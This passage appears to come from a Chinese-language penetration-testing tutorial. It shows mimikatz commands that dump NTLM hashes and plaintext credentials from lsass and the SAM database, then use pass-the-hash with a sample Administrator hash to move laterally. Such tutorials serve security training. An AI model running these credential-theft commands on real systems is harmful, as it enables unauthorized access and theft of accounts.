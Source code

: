 ![image-20220815145035785](assets/image-20220815145035785.png)

#### 2）使用mimikatz进行PTH

**a、获取跳板机Administrator账号的Hash**

首先要通过提权到system权限才可以导出hash值，然后利用本地保存的hash去登录内网的其他机器，还可以执行批量的操作。

* 从lsass进程中获取Hash：privilege::debug; sekurlsa::msv

* 获取全部用户的密钥和明文：privilege::debug sekurlsa::logonpasswords

* SAM数据库获取用户Hash：

  ```bash
  privilege::debug
  token::elevate
  lsadump::sam
  ```

获取到的Administrator账号的NTLM Hash为：4d6e43b2cdc951808100f5b1d09aac63

**b、添加Administrator账号Hash到lsass进程中**

然后，在Windows7主机上用mimikatz将获取到的Administrator的Hash添加到lsass进程中。

```cmd
privilege::debug 

sekurlsa::pth /user:administrator /domain:workgroup /ntlm:4d6e43b2cdc951808100f5b1d09aac63
```
